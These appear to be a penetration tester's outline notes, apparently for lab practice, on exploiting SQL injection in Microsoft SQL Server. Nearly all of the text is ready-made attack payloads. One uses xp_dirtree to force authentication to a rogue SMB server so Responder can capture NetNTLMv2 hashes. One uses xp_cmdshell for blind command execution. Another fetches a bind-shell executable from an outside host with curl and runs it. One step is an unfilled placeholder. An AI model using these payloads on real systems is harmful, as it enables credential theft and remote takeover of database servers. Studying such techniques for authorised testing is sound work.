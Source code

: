 alias:: MSSQL

- If you find an injectable entry-point (e.g. `username`), you can try to interact with the underline operating system
	- Collect netNTLMv2 challege for the user running MSSQL process via **xp_dirtree**
		- Start [[Responder]]
		  ```bash
		  sudo responder -I tun0 -wd
		  ```
		- Execute a query that tries to reach out your rouge SMB server
		  ```sql
		  username='; exec master..xp_dirtree '//192.168.45.171/a'-- 
		  ```
	- Execute commands via **xp_cmdshell**
		- You may need to enable command execution first
		  background-color:: yellow
		  ```sql
		  Add here instruction about how to enable xp_cmdshell
		  ```
		- Blindly confirm that commands are executed by running a sleep(-equivalent) command
		  ```sql
		  Username='; exec master..xp_cmdshell 'ping 127.0.0.1 -n 6 > nul'--
		  ```
		- Upload a bind shell then run it
		  ```sql
		  Username='; exec master..xp_cmdshell 'curl 192.168.45.171/bind_cmd_4444.exe -o C:\Windows\temp\bind.exe'--
		  ```
		  ```sql
		  Username='; exec master..xp_cmdshell 'C:\Windows\temp\bind.exe'--
		  ```